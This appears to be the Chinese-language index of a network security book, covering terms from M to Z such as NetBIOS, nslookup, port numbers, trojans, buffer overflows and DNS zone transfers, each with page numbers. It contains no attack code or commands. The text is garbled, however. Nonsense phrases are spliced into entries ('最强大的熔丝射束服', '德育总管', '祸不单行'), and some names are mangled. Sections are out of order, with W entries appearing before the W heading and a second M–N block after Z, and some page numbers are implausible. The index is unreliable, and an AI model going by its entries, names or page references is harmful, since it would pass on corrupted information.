- MAPPING_CHDIR 缓冲区溢出, 453
- MAPI 服务, 479
- 主密钥密码, 321–322
- Match 命令, 174–175
- MAX 攻击, 322, 323–324
- 最大不完整会话高阈值, 235
- 最大不完整会话低阈值, 235
- MB（邮箱）记录类型, 180
- McAfee 防火墙, 132
- McAfee Internet Guard Dog, 224
- McAfee Internet Guard Dog 3.0, 232
- McAfee 产品, 主动扫描, 290
- McAfee WebShield, 422
- MD5 哈希函数, 307
- MDaemon 漏洞, 462
- MD（邮件目的地）记录类型, 180
- 介质净化, 507
- 中等安全关注, 502
- 消息认证, 515, 529
- 消息文件缓冲区溢出, 453
- 消息类型字段, 6
- MF（邮件转发器）记录类型, 180
- MG（邮件组成员）记录类型, 180
- MIB. *见* 管理信息库 (MIB)
- "Microsoft Corporation" 证书, 不真实, 399–400

### N

- 名称服务器数据库, 更新, 40
- 名称服务器查找. *见* nslookup 工具
- 名称服务端口, 19
- NAT. *见* 网络地址转换 (NAT)
- 国家基础设施保护中心 (NIPC), 372, 489, 542
- 国家安全局 (NSA), 493
- NBTSTAT -a 命令, 437
- NBTSTAT -A 命令, 438
- NBTSTAT 目标发现, 604
- NBTSTAT 工具, 183
- .NET Messenger, 68–69
- Netsky 变种, 448
- NetBIOS, 通过 Internet, 460
- NetBIOS 应用类型, 43
- NetBIOS 名称, 30, 160
- NetBIOS 端口扫描器, 182
- NetBIOS 端口, 287
- NetBIOS 扫描, 14
- NetBIOS 服务, 33
- NetBIOS 共享, 连接, 439
- NetBIOS 窥探, LAN Manager, 440
- NetBus, 230
- NetBus Pro, 230
- Netc 功能, 63
- Netcat 工具, 59, 131, 446, 639. *另见* nc 工具
- Netcraft, 332
- Netcraft（服务器信息）, 332
- NET.EXE, 5
- NetMeeting 应用, 69
- NetMeeting 远程桌面共享, 68
- Netmon. *见* 网络监视器
- Netscape 5
- Netscape Missing Pieces, 222
- Netspii 木马, 246
- NETSTAT.EXE, 5, 45–46
- Netstat 目标发现, 604
- Netstat 工具, 14, 45–47, 132, 639
- NetStructure 7110 电子商务加速器, 245
- 网络地址转换 (NAT), 193
- 网络架构, 569
- 网络架构图, 575
- 网络攻击, 618
- 网络连接, 无人值守或断开, 4
- 网络数据库, 157, 182
- 网络枚举, 美国. *见* 美国枚举
- 网络文件系统. *见* NFS
- 网络信息中心, 554
- 网络接口卡 (NIC), 244, 450
- 网络接口统计, 显示, 273
- 网络层, 2, 15
- 网络监视器 (Netmon), 594
- 网络. *另见* 具体类型, 例如, 无线网络
  - 直接连接, 160
  - 可扩展, 160
  - 中间, 485
  - 内部, 231, 495, 496
  - 本地, *见* LAN
  - 外围, 160, 171–172, 537, 545
  - 重建, 537
- 网络服务, 不安全, 414–418
- 网络工具, 扫描, 177–186
- 新闻组访问, 588
- NFR（网络飞行记录器）. *见* 网络飞行记录器
- NFS（网络文件系统）, 8. *另见* Linux NFS
- NIC. *见* 网络接口卡 (NIC)
- NIC 信息, 获取, 273
- NIMDA 恶意代码, 383–384
- NIPC. *见* 国家基础设施保护中心 (NIPC)
- NMAP 目标发现, 604
- NMAP 工具, 13, 15, 30, 133, 182, 639. *另见* Map 工具
- Nmap 工具, 46
- 非交互式服务, 145
- 不可否认性, 515, 528
- 不可路由地址, 42
- 非传统服务, 155
- 非 Windows 设备, 69
- 事件通知, 498
- nslookup 命令, 4, 13, 15, 23–27, 179, 342, 604
- nslookup 失败, 40
- nslookup 参考, 23, 36
- nslookup 技术, 178–179
- nss 工具, 13
- NTBOMB 工具, 264
- NTBTLOG.TXT 文件, 243
- NTCOPS, 372
- NTFS 文件系统权限, 438
- NT LAN Manager. *见* NTLM
- NTLM 认证, 371
- 空扫描, 12, 13
- 空会话信息泄露, 438–439

[PAGE 693]

- 空会话, 440
- 编号访问列表, 163
- NV（网络可见）计算机列表, 14
- NX（不存在）记录, 25

### O

- 对象标识符 (OID), 68
- OCX 缓冲区溢出, 437
- Office 97 宏安全, 479
- Office 套件, 643
- 办公终端设备, 525
- 异地存储, 526, 633
- 离线攻击, 397
- OID. *见* 对象标识符 (OID)
- OM（操作消息）记录类型, 180
- 一次性密码, 27
- 单向函数, 308
- 在线信用卡订购, 219
- 在线金融服务, 219
- 在线服务, 219
- 在线购物, 219
- Onmouse 命令, 213
- 现场基础设施审计, 541–583
- OpenBSD, 371
- 开放防火墙通用扫描和攻击示意图, 46, 93
- OpenLDAP, 395–397. *另见* 轻量目录访问协议 (LDAP)
- 开放邮件中继, 402
- 开放端口. *见* 端口, 开放
- 开放中继, 268
- OpenSSH 2.3.1 版本, 之前, 305–306
- OpenSSL, 305–306
- OpenSSL 库漏洞, 305
- 开放系统, 27, 31
- Openwall Linux 内核补丁, 296
- 操作系统 (OS). *另见* 具体操作系统
  - 指纹识别, 14, 16–22, 29–30, 38–39
  - 加固, 293–302
  - 识别, 16–22, 29–30
  - 冗余, 574
- 操作系统漏洞, 353–369
- 操作控制, 509–515, 622, 632–634
- 操作阶段, 系统生命周期, 507, 621
- 操作控制, 373, 622
- OP（操作员记录）记录类型, 180
- 光缆, 106
- 信息组织, 155
- OR（原点）记录类型, 179
- OS 识别
  - 主动, 30
  - 被动, 30
- OSI 层, 27
- Outmail11.ini 文件, 111
- Outlook, 382, 399, 401
- Outlook Express, 344, 475
- Outlook 消息传递错误, 479
- 带外数据, 20
- 外部攻击, 来源, 493
- OVAL（开放漏洞评估语言）, 423
- 文件所有权, 296

### P

- 打包"免费软件"解决方案, 128
- 数据包组装, 3
- 数据包过滤, 155, 157, 160
  - 应用层, 170
  - 动态, 172
- 基于签名的数据包过滤器, 155
- 有状态, 155, 169–176
- 无状态, 157, 160–163
- 数据包过滤 Cisco 路由器, 160
- 数据包过滤防火墙, 598
- 数据包过滤规则, 598
- 数据包过滤弱点, 160
- 数据包转发, 240
- 数据包丢失, 567, 573
- 数据包欺骗, 3
- Packet Storm, 423, 489, 491, 490
  - *另见* Bugtraq; ICAT; K-OTik; Security Focus
- 数据包, 1–3
  - 捕获, 189–198
  - 信息泄露, 3
  - 合法, 3
  - NetBIOS, 33
  - 可嗅探, 3
  - 源路由, 288, 289, 290–291
- 数据包跟踪, 27
- 数据包追踪, 3
- 填充, 15
- 分页, 617, 628–629
- Palm III 设备, 14
- Palm OS, 276
- Palm Pilot, 276
- 平移/倾斜/缩放网络摄像头, 152
- 参数传递, 63, 64
- 父区域, 24
- 分区, 506
- 网络分段, 15, 27
- 被动数据连接, 拦截, 308
- 被动信息收集, 3-4, 209-220
- 被动模式 FTP, 446
- 被动 OS 识别, 30
- 被动侦察, 494
- 被动嗅探, 244
- 密码保护工具, PGP, 300
- 密码短语, 300
- 密码认证数据包, 296
- 密码破解器, 133, 270, 429
- 密码保护屏幕保护程序, 104
- 密码保护, 525
- 密码, 310
  - 访问, 479
  - 空白, 435
  - 更改, 4
  - 破解和嗅探, 402–407, 226
  - 默认, 556
  - 弱密码检测, 535
  - 泄露, 528
  - 加密, 279, 295
  - 暴露, 447
  - 主密钥, 321–322
  - 文件密码, 300
  - 一次性, 27
  - 搞砸, 437
  - 影子密码, 294
  - 嗅探, 447, 520, 636
  - 窃取, 104
  - 系统密码, 519
  - 弱密码, 12, 40, 319, 428–429
- 密码方案, 弱, 184
- 补丁, 11
  - 可用, 11
  - 检查, 215
  - 获取, 35
  - 保持最新, 428, 462
- 补丁管理, 594
- 被动漏洞扫描, 423
- 过往经验, 审查, 489–491
- 巡逻工具, 131
- PCDJ 守护进程, 101
- PC-DOS, 23
- PCI 卡, 294
- PCSWAT. 木马, 127
- PDA 设备, 14
- 点对点 (P2P) 文件共享, 484
- 点对点网络, 484
- 点对点支持网站, Microsoft, 344
- 渗透团队, 535
- 渗透测试, 230, 421, 491, 539–540
  - 知识型, 539–540, 596–597
  - 非知识型, 496, 542
  - 走查, 547–565, 574
- 外围防御机制, 225, 226
- 多维网络, 160, 171–172, 537, 545
- 外围扫描器, 423
- 外围安全, 160–176, 597–598
- 权限位, 296
- 个人网络昆虫, 133
- 个人数字助理 (PDA), 511
- 个人防火墙, 126, 131–132, 171, 598
- 个人信息, 219
- 个人安全顾问, 427, 428-429
  - *另见* Microsoft Security Advisor
- 个人系统安全清单, 617–628
- PGP (Pretty Good Privacy), 312
- PGPPASS, 300
- PGPphrase, 300
- 回退程序, 504
- 阶段. *另见* 具体阶段
  - 开发, 506, 620–621
  - 实施, 506, 620–621, 631
  - 启动, 505, 620, 631
  - 生命周期, 505–507
  - 操作, 507, 621
- 电话拨号号码, 225
- 电话黑客. *见* 电话飞客
- PHP 脚本语言, 461
- PHP 服务器漏洞, 345
- 尾随, 525, 635
- Ping 洪泛攻击, 318
- 目标定位, 13
- Ping 扫描, 13
- Ping 扫描, 8
- "Ping" 主机, 8, 10
- 管道命令, 342
- PKZIP 工具, 154
- 规划
  - 恢复, 524
  - 生命周期安全, 504–507, 620, 630
- 平台独立性, 202–203
- 平台漏洞, 查找, 353–402
- 插件模块, 152, 156
- 插件, 浏览器, 202, 390, 479
- 点对点协议 (PPP), 漏洞, 286
- 点对点隧道协议 (PPTP), 286, 360
  - IPSec, 312
  - MS-CHAP, 439
  - SNMP 问题, 439
  - 漏洞, 263
- 投毒 DNS, 46
- 毒性逆转, 654
- 策略, 4
  - 可接受使用, 499, 624
  - 访问控制, 505
  - 变更, 535
  - 扫描的道德使用, 155
  - 遗留, 65
  - 维护, 534
  - 人员, 506
  - 审查, 199
  - 安全, 498, 499, 501, 528, 620, 635
  - 培训, 503, 525
  - 更新和文档, 534
- 策略问题, 274
- 礼貌扫描, 12
- 多态引擎, 290
- 多态病毒, 382
- POP2 服务, 67
- POP3 邮件服务器, 389
- POP3 服务, 67
- POP-before-SMTP 服务, 389
- POPMail 服务, 111
- 端口 13, 8
- 端口 15, 8, 42, 184
- 端口 25, 8, 67, 179, 266, 268, 401, 462
- 端口 43, 225
- 端口 53, 19, 179
- 端口 57, 8
- 端口 67, 19
- 端口 70, 558
- 端口 79, 17, 185
- 端口 109, 111
- 端口 110, 159
- 端口 111, 8, 9, 15
- 端口 113, 185
- 端口 119, 111
- 端口 123, 20
- 端口 135, 30, 160, 340, 459
- 端口 137, 30, 159, 160, 184, 287, 437, 604
- 端口 138, 30, 159, 160, 184, 287
- 端口 139, 30, 59, 159, 160, 184, 287, 437, 460, 604
- 端口 143, 374
- 端口 161, 8, 9, 68, 69, 184
- 端口 165, 558
- 端口 177, 159
- 端口 199, 145
- 端口 256, 9
- 端口 257, 9
- 端口 445, 158, 184, 459
- 端口 512, 9, 27
- 端口 513, 27
- 端口 514, 27
- 端口 520, 9
- 端口 666, 459
- 端口 1024, 30, 59, 342
- 端口 1080, 152
- 端口 10501, 17
- 端口 12345, 118
- 端口 12346, 118
- 端口 23456, 110
- 端口 27374, 389
- 端口 31337, 274, 446, 491
- 端口 3306, 459
- 端口限制移动用户, 193–198
- 端口扫描, 12
  - 阻止, 157–164
  - CrackWhore, 102
  - 检测, 157
  - 完整, 13
  - 隐蔽, 12, 13
  - SYN, 184
- 端口
  - 描述, 1-3, 19
  - 基本, 157
  - NetBIOS, 287
  - 开放, 1, 45, 69, 105, 106
  - 可选, 157
  - 特权, 19
- 位置参数, 63
- POST 方法, 45
- PostData 方法, 344
- 事后分析, 504, 531-533, 619-620, 636-637
- PostScript 文件, 355
- PostScript 解释器, 355
- PostScript 打印过滤器, 355
- 潜在漏洞, 识别, 38-39
- PPP. *见* 点对点协议 (PPP)
- PPTP. *见* 点对点隧道协议 (PPTP)
- 实践审计, 543-544
- 良好隐私 (PGP). *见* PGP
- PR（人员）记录类型, 180
- 预评估会议, 544-546
- 可预测 TCP 序列号, 360-361
- 先决服务, 156
- 表示层, 27
- 展示发现, 595-598
- 预防控制, 509, 515
- 预防措施, 493-494
- 主区域文件, 24, 25
- 主区域, 24, 25
- 打印守护进程, 9
- PrintDaemon.exe, 缓冲区溢出, 365-366
- 打印假脱机, lpd, 451
- 隐私, 516-517
  - AIX 操作系统, 363
  - 增强, 232
  - 侵犯, 269, 290
- 隐私伴侣, Idcide, 232
- 用户交换机 (PBX), 510
- 私有类地址, 42
- 私钥算法, 308
- 私钥, 308, 312, 515
- 私人邮件服务器, 111
- 权限提升, 330, 396
- 特权命令, 限制访问, 296
- 特权端口, 19
- 特权状态, 525
- 权限, 9, 296
- PRNG（伪随机数生成器）, 307
- 主动技术, 226
- 问题跟踪, 533
- 程序, 正式性, 498
- 进程初始化, 6
- 进程到进程连接, 2
- 产品 ID (PID), 68
- 禁止服务, 156
- 程序宏, 380
- 程序补丁, 保持最新, 462
- 混杂模式, 以太网卡, 132
- 混杂模式设备, 3-4, 6-7
- Pronet v. 1.3, 缓冲区溢出, 450
- 扫描传播阶段, 155
- 属性, 文件, 219
- 保护代码, 638
- 保护域, 507
- 主要应用保护, 495-496

#### Q

- QAZ 后门木马, 230-231
- QAZ 远程控制木马, 447
- QAZ 蠕虫, 通过电子邮件传播, 446
- QoS（服务质量）, 带宽, 4
- 四重 DES, 307
- Quake 3 Arena, 101
- 查询
  - DNS, 25-26, 36
  - 反向, 443, 448
  - 日志, 35, 36
  - 重复, 36
  - 反向, 336
  - 类型, 36
  - 区域传输, 23-27
- 查询 AXFR, 443
- DNS 查询响应, 时限, 40
- 查询类型, DNS 支持, 179-180
- 询问问题, 539-540
- QuickFix 工具, 282
- Quicktime 5.0, 478

#### R

- RAR（Roshal Archive）文件, 462
- RAT. *见* 远程访问木马 (RAT)
- RCP 服务, 20
- RDS 漏洞利用. *见* Microsoft 远程数据服务 (RDS) 漏洞利用
- "伸出", 445-451
- rdisk /s 工具, 448
- RDQ 组件. *见* RightDataQuick (RDQ) 组件
- 读取访问, 9
- ReadChapter 函数, 367
- RealAudio, 444
- RealNetworks RealPlayer G2, 476
- 实时 IP 地址处理, 66, 615
- 恢复
  - 攻击, 504
  - 控制, 523-524, 620, 636
  - 文档, 524
  - 妥协恢复, 529
  - 规划, 524
  - 程序, 493-495, 506, 636
  - 团队, 530-531, 636
- 廉价磁盘冗余阵列 (RAID), 636
- 冗余, 573-574
- 引用监视器, 638
- Reform3.exe, 320
- 域名注册, 225
- 注册表
  - 分布式组件对象模型, 340, 341-344
  - 修改, 213, 224
  - 开放服务器, 67
  - 权限, 213, 224, 428-429
  - 根, 213
- 注册表项, 213, 224, 340, 341-344
- 注册表权限, 213, 224, 428-429
- 回归测试, 504
- 定期审查, 495-496
- 相关安全网站, 199
- 中继主机, 20
- 中继
  - 邮件, 402
  - 开放, 268
  - SMTP, 72, 111, 266, 359, 401, 461
- 远程访问木马 (RAT), 128, 230. *另见* 具体木马, 例如, 后门 Orifice
- 远程控制木马, 447
- 远程桌面协议 (RDP), 67
- 远程漏洞利用代码, 385
- 远程文件包含 (RFI) 漏洞, 345
- 远程信息查询, 426
- 远程登录
  - Internet, 461
  - 标准协议, 27
- 远程托管安全服务, 293
- 远程过程调用 (RPC), 8, 9, 15, 20
  - AIX, 363
  - Windows NT/2000, 363
- 远程 root 攻击, imap, 373-374
- 远程路由器服务, 19
- 远程扫描, 382
- 远程共享, 558
- 修复程序, 498-499
- 可重复性, 535
- 重复登录失败尝试, 184
- 重放攻击, 15, 360, 515
- 报告, 531-533. *另见* 事件报告服务
- 报告
  - IDS, 593-594
  - 渗透测试, 595
  - 样本, 540-587
  - 漏洞评估, 594
- 请求评论 (RFC) 目录, 42
- 请求评论 (RFC), 184
- 请求操作, 156
- 资源记录, 23, 36, 178, 179-18
- 资源共享, 159
- 资源, IT, 492-493
- 响应协议, 530
- 攻击响应, 498-499, 635
- 重启服务, 125
- 受限账户, 344
- 报复, 攻击, 498-499
- Retina 工具, 129, 423
- 视网膜扫描, 517
- 回顾性漏洞测试, 423
- 返回地址, 337
- 投资回报 (ROI), 494-495
- 反向地址, 160
- 反向 DNS 查找, 160
- 反向 DNS 记录, 336
- 反向查找, 25, 160, 184, 225
- 反向查询, 336
- 反向 Telnet, 59
- 审查
  - 架构和基础设施, 35
  - 定期, 495-496
  - 需求, 504
  - 安全程序, 498
  - 走查, 545-546, 596
- RF 攻击, 309
- RFC. *见* 请求评论 (RFC) 目录; 请求评论 (RFC)
- RFI 漏洞. *见* 远程文件包含 (RFI) 漏洞
- RightDataQuick (RDQ) 组件, 437
- RightFax 客户端, 缓冲区溢出, 450
-最强大的熔丝射束服 9
- RIP 协议, 9
- 风险
  - 互联网安全, 206
  - 最小, 504
  - 相对, 12
  - 扫描, 155
- Rivest, Shamir, and Adlemium(RSA) 算法, 308, 309
- rlogin, 8
- rlogin 服务, 9
- rm 和 rm -rf 命令, 105
- rmdir 命令, 105
- Robbins, Judd, 199
- RoBoR 程序, 372
- 伪造横幅, 45
- 流氓用户账户, 330
- ROI. *见* 投资回报 (ROI)
- 基于角色的安全, 520, 626, 638
- Root 账户, 9, 296, 331
- 根目录, 21
- root.exe, 446
- Rootkits, 10, 317, 446, 491
  - 功能, 291
- 根名称服务器, 24
- Root 提示, 387
- 根注册表, 213
- 往返时间, 567
- 路由器, 9
  - 访问, 9
  - 配置, 42
  - 直接连接, 160
  - Intel Express, 170
  - or. 330
  - 本地, 236-238
  - NAT, 193
  - 数据包过滤, 160
  - 外围, 172
  - 远程服务, 19
  - telnet 访问, 9
- 路由表, 45
- RPC. *见* 远程过程调用 (RPC)
- RPC 端点映射器, 363
- RPC 服务, 9
- rsh, 8
- rsh 服务, 9
- .rsrc 段, 446
- RS-232 控制台端口, 322
- RSA 算法, 308, 309
- .rhosts, 294
- RSH 服务, 413
- rsync 工具, 363
- 规则集, 173, 335
- 规则集, TigerGuard 默认, 148
- 运行进程, 枚举, 132
- 运行时错误, 502整数溢出

#### S

- Safe for Windows. *见* Steganos 安全套件
- 安全模式, 243
- SAN, 获取, 155
- 本地基础设施审计样本, 564-573
- 样本报告, 540-587
- Sans 研究所, 552
- SASL 库, 397
- 保存证书对话框, 218
- 保存方法, 344
- SawMill for IIS, 422
- 可扩展性, 594
- 扫描检测, 157
- ScanMe 2.0 端口扫描器, 63
- 扫描
  - 主动, 290
  - 对策, 35
  - 定义, 155
  - 防御性, 15-33
  - 漏洞利用, 34-43
  - 道德使用, 155
  - IP 范围, 162-171
  - 本地后门木马, 72-89
  - NetBios, 14
  - 网络工具, 177-186
  - NMAP, 13
  - 被动, 15-33
  - 渗透测试, 修改, 542
  - ping, 13
  - 端口, *见* 端口扫描
  - 保护, 156-176
  - 原因, 15
  - 远程, 382
  - 风险, 155
  - 安全, 174
  - 策略, 12, 13
  - 技术, 12-43
  - 技术, 11-89
  - 工具, 11, 13, 14, 29-30, 72-89, 127, 165, 182
  - 未授权, 12
- 扫描工具, 11, 13, 14, 29-30, 72-89, 127, 165, 182
- 扫描选项, 182
- 扫描范围参数, 183
- ScanSniff 工具, 133, 134-137, 142-146
- ScanSweep, 182
- 扫描类型, 13
- 恐吓软件, 127
- 调度, 617, 628-629
- Schneider, Bruce, 232, 307
- 屏蔽路由器, 598
- 脚本小子, 15, 34, 372, 431, 490
- 脚本, 202-203
  - ASP, 344-345
  - 命令, 63, 343
  - 修改, 155
  - shell, 63
  - 木马, 72
  - VBScript, 202, 391
- 脚本宿主, Windows, 202, 479
- 脚本映射, 463
- 脚本解析器, 391
- 脚本, 可执行, 22
- 密封套件, 147
- 二级域名, 24, 26
- 辅助区域, 24, 25
- 安全通道, 440
- 安全 FTP, 310
- 安全哈希算法 (SHA), 307
- SecureCard, Visa, 219
- 安全服务器证书, 218
- 安全外壳 (SSH), 27, 59, 191, 310
- 安全套接层. *见* SSL
- 安全 Windows 安装, 299-300
- Securelnet, 132
- 安全. *另见* 具体类型, 例如, 互联网安全
  - 个人清单, 617-628
  - 计算机, 492-498
  - 概念, 1-89
  - 数据文件, 300
  - 程序开发, 495, 508-515, 622-634
  - 电子商务, 490
  - 执行, 519
  - 关注增加, 199
  - 信息, 619, 629-630
  - 标签, 520
  - 级别, 502
  - 外围, 160-176, 597-598
  - 物理, 524-525
  - 规划, 504-507, 620, 630
  - 策略, 498, 499, 501, 528, 620, 635
  - 实践, 充分, 11
  - 程序, 519
  - 标准化程序, 495-518
  - 审查, 498
  - 基于角色, 520, 626, 638
  - 服务器, 42, 64-65, 186-188, 427, 594
  - 软件, 515
  - 子系统, 516
  - 系统, 40, 155-156, 498
  - 技术方面, 519
  - 漏洞, *见* 漏洞条目; 具体漏洞
- 安全审计, 503
- 安全事件日志, 243
- 安全缺陷, 已知, 270
- 安全漏洞, GetAdmin, 417
- 安全标签, 内部, 520
- 安全补丁, IE, 476
- 安全计划, 493, 617-628
- 安全程序
  - 开发, 495, 508-515, 622-634
  - 标准化, 495-518
- 安全令牌, 518
- 安全区域, 自定义, 204-205, 224
- 段描述符, 646
- 分段, 网络, 15, 27
- sendmail, 27
- Sendmail 缓冲区溢出, 8, 451
- Sendmail 守护进程德育总管 u	
  - 漏洞利用, 451
- Sendmail 服务, 8
- Sendmail 漏洞, 72, 270, 451
- 序列号, 15
  - 初始, 360
  - 可预测 TCP, 360-361
- 串行线路网际协议 (SLIP), 227, 545
- 服务器管理, 9
- 服务器守护进程
  - FTP, 182, 268
  - Internet, 317, 331-349
  - 邮件, 268
  - Unix, 268, 414
- 服务器级攻击, 461-463
- 服务器消息块. *见* SMB
- 服务器监控, 9
- 服务器. *另见* 具体类型
  - 数据库, 192, 346
  - 分散, 24
  - DNS, *见* DNS 服务器
  - FTP, *见* FTP 服务器
  - IIS, 333-344, 457
  - Internet Information, 333-344
  - 邮件, 111, 268
  - 名称, 24
  - 新闻, 588
  - 开放, 24
  - POP3, 389
  - 私人邮件, 111
  - 代理, 126, 152, 171, 598
  - PuTTY, 59
  - 远程访问, 8, 9
  - 根名称, 24
  - SMTP, 111
  - Web, *见* Web 服务器
  - Windows, 333
- ServersCheck, 422
- 服务器安全, 42, 64-65, 186-188, 427, 594
- 服务（守护进程）程序, 5-10
- 服务级攻击, 461-463
- 服务. *另见* 具体服务
  - 发现, 274
  - 非交互式, 145
  - 非传统, 155
  - 开放 NetBIOS, 33
  - 先决, 156
  - 禁止, 156
  - 重启, 125
  - 漏洞, 107
- 服务嗅探, 253
- 服务扫描, 13
- 会话边界, 30
- 会话数据, 嗅探, 3
- 会话层, 27
- 面向会话的协议, 174
- 会话, 不完整, 234-235
- SetACL 工具, 215
- setgid, 296
- setrans.exe, 340, 341
- setuid/setgid 程序, 296
- setuid shell, 385
- setuid, 296
- Sfinder 工具, 14, 443
- SGU（屏蔽网关单元）, 598
- SHA. *见* 安全哈希算法 (SHA)
- 影子密码, 294
- 共享名称, 18
- SHAtred, 270
- Shell 命令, 远程执行, 460
- Shell 脚本, 63
- Shell, 交互式登录, 645
- 屏蔽, 106
- Shields UP!! 端口扫描器, 104, 182
- 快捷方式, Internet Explorer, 243-244
- 肩部冲浪, 525, 635
- Showmount 工具, 9
- showrev 命令, 283
- 关机
  - 攻击, 894
  - 立即或有序, 156
  - 服务, 156, 158
  - 系统, 504, 524
- 副作用, 木马, 132
- 签名
  - 数字, 515, 529
  - 文件, 154
  - 基于数据包过滤器, 155
  - 病毒, 290
- 基于签名的数据包过滤器, 155
- 签名验证, 290, 515
- 筒仓, 8
- 互联网协议简单密钥管理 (SKIP), 309-310
- 简单邮件传输协议. *见* SMTP
- 简单网络管理协议. *见* SNMP
- 单点登录 (SSO) 系统, 520
- SIP（会话初始协议）, 444
- 站点漏洞, 查找, 426-427
- SithChk 工具, 423
- SKIP. *见* 互联网协议简单密钥管理 (SKIP)
- SkyRacer 交换机, 324
- SLIP. *见* 串行线路网际协议 (SLIP)
- 槽式访问列表, 175
- 智能卡, 518
- SMB（服务器消息块. *见* SMB 条目
- SMB（服务器消息块）, 43, 160, 460
  - NetBIOS 通过, 460
- SMB 数据包签名机制, 440
- SMB 协议, 441
- SMBRelay, 441
- SMBRelay2, 441
- SMTP（简单邮件传输协议）, 72, 111, 266, 352, 389, 401, 462
  - 开放中继, 72, 111, 359
- SMTP 中继, 266
- SMTP 中继, 72, 111, 266, 359, 401, 462
- SMTP 服务器, 111
- SMTP 服务, 462
- SNAFU 服务, 118
- 窥探者, 电子邮件, 226
- 嗅探
  - 被动, 244
  - 密码破解, 402-407
  - 服务, 253
  - 会话数据, 3
- 嗅探设备, 132
- 嗅探检测工具包, 594
- 嗅探程序, 132, 528
- 嗅探器
  - 入侵, 133, 142-146
  - 保护, 132
- Sniffit 目标发现, 604
- SNMP（简单网络管理协议）, 8, 9, 68, 69, 184, 557. *另见* SNMP 守护进程
- SNMP 代理, 68
- SNMP 社区字符串, 68, 184
- SNMP 守护进程, 8
- SNMP 问题, PPTP, 439
- SNMP 协议, 9
- SNMP 工具, NET.EXE, 5
- SNMP 漏洞, 69, 557

- 监视工具, 260, 489, 491, 489
W32/Leaves 恶意代码, 446
W32/Myparty 恶意代码, 382-383
W32/Naked 恶意代码, 388 W32/Sircam 恶意代码, 393-395
W32/Witty 恶意代码, 353

- 监视工具, 131-132
- 信息财富, 可用性, 3
- "弱" 文件权限, 9
- 弱认证, 367, 398
- 弱配置设置, 447
- 弱链接, 319

[PAGE 694]

- 弱点. *另见* 具体弱点, 例如, IP 弱点
  - 明显, 427
  - 执行, 318
  - 已知, 504
  - 空会话, 440
  - 数据包过滤, 160
  - 密码, 12, 40, 319, 428-429
  - UPnP, 340

- 弱保护数据文件, 300
- Web 访问, 控制, 56
- Web 应用漏洞, 357-359, 395-397, 480-482
- Web 后门, 232
- Web 漏洞利用, 74, 76
- Web 浏览器. *见* 浏览器
- Web 漏洞, 226-227
- Web 篡改, 65, 457
- Web 启用应用, 198
- Web 过滤, 453
- Web 钩子, 153
- Web 信息, 190
- Web 接口, 漏洞, 65
- Web 页面信息, 190
- Web 插件, 202

#### W

- War 拨号, 225, 534
- War 驾驶, 306, 310
- 盗版软件, 34, 490
- Web 插件, 202
- Web 代理服务器, 152, 171, 598
- Webroot Spy Sweeper, 129
- Web 服务器守护进程. *见* Internet 服务器守护进程
- Web 服务器
  - Apache, 73, 332
  - IIS, 333-344, 457
  - 漏洞利用, 343
  - 未打补丁, 427
- Web 服务
  - IIS, 333-344, 457
  - 保护, 427
- WebShield, McAfee, 422
- Web 网站. *另见* 具体网站
  - 篡改, 65, 457
  - 漏洞利用, 343
  - Honeynet, 597
  - Lycos, 270
  - TigerTools 保护, 64
  - 目标, 270
- Web 欺骗, 447
- WebTrends 安全分析器, 422
- WEP（有线等效隐私）, 306, 307-308, 311
- WfW 服务, 118
- Wget 工具, 154
- Whacko 服务, 118
- Win95/98 系统, 439
- WinChip 头部, 缓冲区溢出, 450
- Windows 2000 安全, 638-639
- Windows-good endian 系统 祸不单行, 439
- Windows 通讯簿 (WAB) 漏洞, 399
- Windows 应用, 保护, 205-206
- Windows 客户端, 193-195
- Windows LAN Manager
  - 认证和 NetBIOS 窥探, 440
  - 哈希和密码猜测, 271
- Windows Messenger, 68-69
- Windows NetMeeting, 69
- Windows NT/2000, 远程过程调用, 363
- Windows 平台, 漏洞, 353
- Windows 注册表. *见* 注册表
- Windows 脚本宿主 (WSH), 202, 479
- Windows 脚本安全, 479
- Windows 服务器, 333
- Windows 系统, 213, 224, 340, 341-344, 428-429. *另见* Windows 条目; 具体版本
  - NT, 57, 363, 433
  - 保护, 205-206
  - 保护默认, 299-300
- Windows UPnP 服务. *见* 通用即插即用 (UPnP) 服务
- Windows 工作站, 保护, 205-206
- WinDump, 130
- WinGate 代理, 152
- Wingate 服务, 118

- WinNuke, 264, 331, 445
- WinNuke 运行时错误, 502
- WinNuke 攻击, 331

#### X

- X11 转发, 310
- X11R6 服务器, 缓冲区溢出, 367
- X.25 连接, 545
- X-Force, 550
- Xerox DocuPrint 打印机, 缓冲区溢出, 450

#### Y

- 黄页 (YP), 8

#### Z

- ZoneAlarm, 126, 225
- ZoneAlarm Pro, 132
- ZoneAlarm Pro 2.1, 225
- 区域文件, 36, 37
  - 主, 24, 25
  - 辅助, 24, 25
  - 传输, *见* 区域传输
- 区域传输, 158, 179, 225
  - AXFR, 25
  - 防御, 23-27
  - 检测, 40
  - DNS, 23-27
  - nslookup, 23, 24, 25, 26, 27, 36, 179, 225
  - 查询, 23-27
  - whois, 36
- 区域传输查询安全, 23
- 区域传输
  - 阻止, 25-26
  - DNS 查询, 25-27
  - 查询, 23-27
  - 预防, 36
- DNS, 成功, 24-25
- 僵尸, 265, 330


 - 蹩脚服务器控制，82–83
- TigerGuard，146–148
- TigerWipe，100–101
- 使用，154
- 监控，507
- 监控命令，177–178
- Moskowitz, Robert，312
- movianVPN，313
- MR（邮件重命名域名）记录类型，180
- mtask.exe 文件，383, 473
- MUD 服务器，615
- 多层交换（MLS），242
- 多路复用，5–6
- 多端口网桥，洪水攻击与，240
- MX 记录。参见邮件交换（MX）记录
- MX（邮件交换器）记录类型，180
- Myparty 蠕虫。参见 W32/Myparty 恶意代码

### N

- NAMED 漏洞，443
- 名称到 IP 地址记录，162
- NAT。参见网络地址转换（NAT）
- NAT 攻击，328–329
- 国家基础设施保护中心（NIPC）监视与预警部门，427
- 美国国家标准与技术研究院（NIST），491
- Nbdatagram 服务，67–68
- Nbname 服务，67–68
- Nbsession 服务，78
- NBTScan，183
- ncurses 版本 5，370
- NeoWatch 2.0，132
- Nestea.c，320
- NetBIOS 信息，182–183
- NetBIOS 名称服务，68
- NetBIOS 名称与服务，183
- NetBIOS 协议，460
- NetBIOS 共享，未受保护的，437–438
- 互联网上的 NetBIOS/SMB，460
- NetBus/2/Pro 服务，119–120
- NetBus 侦探系统清理器，91
  - 配置，92
- NetBus 保护系统（NPS），91
  - 配置，92
- NetCrack，413
- Netflow 交换，242
- Netscape 目录，243
- Netscape 企业服务器，344–346
- NetScreen 漏洞利用，423–424
- NetScreen 防火墙，171, 230
- NetScreen 即点即查系统，238
